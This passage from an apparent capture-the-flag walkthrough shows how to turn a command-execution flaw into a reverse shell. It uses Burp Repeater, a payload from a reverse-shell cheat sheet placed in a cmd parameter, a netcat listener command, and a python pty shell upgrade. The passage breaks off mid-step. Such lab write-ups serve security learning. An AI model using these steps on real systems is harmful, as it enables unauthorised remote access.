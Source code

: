 We have code execution! Intercept the request in Burp and send it to Repeater. Then visit [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and get a bash reverse shell to add in the _cmd_ parameter. Don’t forget to URL encode it \(Ctrl + U\).

![](../images/max/693/1*YReF6__8AI9VqillMvHiHg.png)

Set up a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 1234
```

Send the request.

![](../images/max/984/1*ge3lpKFz-S4Dpa5jRFqhEA.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.
